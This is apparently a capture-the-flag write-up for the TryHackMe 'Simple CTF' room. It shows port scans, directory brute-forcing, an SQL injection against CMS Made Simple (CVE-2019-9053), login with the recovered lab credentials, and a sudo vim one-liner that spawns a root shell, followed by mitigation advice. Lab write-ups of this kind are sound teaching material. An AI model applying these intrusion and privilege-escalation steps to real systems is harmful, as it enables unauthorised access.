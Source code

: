 ```yaml
---
description: Beginner level ctf
---
```


# Simple CTF

The room can be accessed [here](https://tryhackme.com/room/easyctf)

## Information Gathering

I typically start with a Rustscan, simply because it gives me open ports faster. Once I get this, I might use Nmap for specific ports.

### Rustscan Scan

```bash
┌──(lvksus㉿kali)-[~]
└─$ rustscan -a 10.10.37.78 --ulimit 5000                                  1 ⨯
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/lvksus/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.37.78:21
Open 10.10.37.78:80
Open 10.10.37.78:2222
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 22:54 EST
Initiating Ping Scan at 22:54
Scanning 10.10.37.78 [2 ports]
Completed Ping Scan at 22:54, 2.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:54
Completed Parallel DNS resolution of 1 host. at 22:54, 0.00s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 22:54
Scanning 10.10.37.78 [3 ports]
Discovered open port 21/tcp on 10.10.37.78
Discovered open port 2222/tcp on 10.10.37.78
Discovered open port 80/tcp on 10.10.37.78
Completed Connect Scan at 22:54, 1.45s elapsed (3 total ports)
Nmap scan report for 10.10.37.78
Host is up, received syn-ack (0.20s latency).
Scanned at 2022-02-01 22:54:19 EST for 1s

PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack
80/tcp   open  http         syn-ack
2222/tcp open  EtherNetIP-1 syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.59 seconds
```

### Nmap Scan

```bash
┌──(lvksus㉿kali)-[~/Documents/tryhackme/simple_ctf]
└─$ nmap -sV 10.10.37.78                             
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 22:55 EST
Nmap scan report for 10.10.37.78
Host is up (0.090s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
```

Right away, seeing port 2222 for SSH is very strange. We see that FTP is using version vsftpd 3.0.3 and the HTTP website is running on Apache version 2.4.18

## Enumeration

### Dirsearch

I use my favorite directory brute-forcer to look for any directories that might seem interesting

```bash
┌──(lvksus㉿kali)-[~]
└─$ dirsearch -u http://10.10.37.78 -w /usr/share/dirb/wordlists/common.txt -x 404 -t 100

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 4613

Output File: /home/lvksus/.dirsearch/reports/10.10.37.78/_22-02-01_23-11-21.txt

Error Log: /home/lvksus/.dirsearch/logs/errors-22-02-01_23-11-21.log

Target: http://10.10.37.78/

[23:11:21] Starting: 
[23:11:30] 200 -   11KB - /index.html                                       
[23:11:35] 200 -  929B  - /robots.txt                                       
[23:11:35] 403 -  299B  - /server-status                                    
[23:11:35] 301 -  311B  - /simple  ->  http://10.10.37.78/simple/           
                                                                             
Task Completed
```

![CMS Made Simple Version](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_CMS Made Simple Version.png>)

![CMS Made Simple Admin Login](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_CMS Admin Console.png>)

## Vulnerability Assessment

This Content Management System is vulnerable to [CVE-2019-9053: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9](https://www.exploit-db.com/exploits/46635)

### Proof of Concept

As shown in the image below, we see that the site produces output when we use some kind of SQL statement

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_POC.png>)

{% hint style="info" %}
Used this for termcolor issue when trying to run the exploit

[https://www.reddit.com/r/tryhackme/comments/p6v195/help\_with\_simple\_ctf/](https://www.reddit.com/r/tryhackme/comments/p6v195/help\_with\_simple\_ctf/)
{% endhint %}

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_Exploit (1).png>)

### Credentials

username: <mark style="color:green;">`mitch`</mark>\
email: <mark style="color:green;">`admin@admin.com`</mark>\
password: <mark style="color:green;">`secret`</mark>

With these credentials and knowing the fact that SSH port 2222 was open, it would make the most sense to see if we can log into that service

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_ssh+user.txt.png>)

As we see, they work and we are able to grab the user.txt

## Privilege Escalation

Next comes privilege escalation. Let's see what commands mitch is able to run as root

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_Pasted image 20220202112308.png>)

Vim is a very powerful text editor. We'll check out the infamous GTFObins for a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems

In our case, we want to be able to run Vim in such a way that will grant our low privilege user the ability to become root

[https://gtfobins.github.io/gtfobins/vim/#sudo](https://gtfobins.github.io/gtfobins/vim/#sudo)

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_sudo vim.png>)

Just from a simple line of input, we are now root

```bash
mitch@Machine:/home$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:/home$ sudo /usr/bin/vim -c ':!/bin/bash'

root@Machine:/home# id
uid=0(root) gid=0(root) groups=0(root)
root@Machine:/home# 
```

## Root Flag

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_rootFlag.png>)

## Mitigations

### **Password Change**

The user 'Mitch' should change their password to something secure such as: <mark style="color:green;">`Jlds#5@asd53Z`</mark>

### **SQLi Sanitization**

* Client-Side and Server-Side input validation and sanitization
* Secure Coding & SDLC

### Removal of root privileges

* Unless there's a justifiable reason that mitch should be able to run Vim as root, those privileges should be taken away
